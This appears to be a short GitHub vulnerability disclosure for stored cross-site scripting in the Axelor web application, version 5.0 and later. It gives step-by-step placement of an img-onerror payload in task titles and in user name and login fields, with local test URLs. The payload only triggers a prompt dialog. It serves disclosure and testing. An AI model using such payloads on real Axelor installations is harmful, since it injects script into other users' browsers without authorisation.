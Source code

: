 # Axelor_Stored_XSS
Stored_XSS_axelor_WebApp

Product : AXELOR

Version : > / = 5.0

Vulnerable parameters = *

Exemple : 
```
Section "teamwork"
Add new task and put the payload in the title.

PARAM : name
payload : <img/src/onerror=prompt(666)>
URL : http://192.168.0.30:8080/#/ds/team.tasks.assigned/list/1
```
Other one :
```
Section Administration / User Management / Users

URL : http://192.168.0.30:8080/#/ds/action-auth-users/edit/4

Register an new user with the parameters as follow : 
	name = <img/src/onerror=prompt(666)>
	login ("code" parameter in the request) = <img/src/onerror=prompt(666)>

Get XSSED When visiting the Users view : http://192.168.0.30:8080/#/ds/action-auth-users/list/1
```


Payload for demonstration use : 
```
<img/src/onerror=prompt(1)>
```


![](https://user-images.githubusercontent.com/61753065/153757772-185eee39-c55a-4b00-abff-b051753a0a01.gif)
